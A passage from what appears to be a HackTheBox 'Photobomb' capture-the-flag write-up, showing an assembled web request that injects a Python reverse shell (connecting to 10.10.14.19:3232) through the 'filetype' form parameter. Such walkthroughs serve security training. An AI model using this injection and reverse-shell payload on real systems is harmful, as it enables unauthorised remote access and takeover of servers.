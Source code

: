 Put together properly the payload looks like this:

```
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg%3bexport+RHOST%3d"10.10.14.19"%3bexport+RPORT%3d3232%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'&dimensions=3000x2000 
```

![Payload](/docs/assets/images/HTB/photobomb/pbomb14.png)
